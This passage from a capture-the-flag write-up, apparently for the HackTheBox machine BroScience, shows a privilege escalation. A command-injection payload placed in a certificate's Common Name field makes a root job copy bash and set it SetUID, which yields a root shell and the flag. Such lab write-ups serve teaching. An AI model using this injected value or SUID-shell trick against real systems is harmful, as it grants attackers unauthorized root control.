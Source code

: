     Locality Name (eg, city) []:
    Organization Name (eg, company) [Internet Widgits Pty Ltd]:
    Organizational Unit Name (eg, section) []:
    Common Name (e.g. server FQDN or YOUR name) []:$(cp /bin/bash /tmp/0xdf; chmod 4777 /tmp/0xdf)                    
    Email Address []:



My payload will copy `bash` into `/tmp` and set it as SetUID to run as
root (I originally tried `/dev/shm`, but it is mounted `nosuid`.

After two minutes, there's a SetUID binary in `/tmp`:



    bill@broscience:~$ ls -l /tmp/0xdf
    -rwsrwxrwx 1 root root 1234376 Mar 31 09:22 /tmp/0xdf



I'll run that with `-p` to [not drop
privs](/setuid-rabbithole.md) and get a shell as root:



    bill@broscience:~$ /tmp/0xdf -p
    0xdf-5.1#



And read the flag:



    0xdf-5.1# cat root.txt
    e810aba4************************







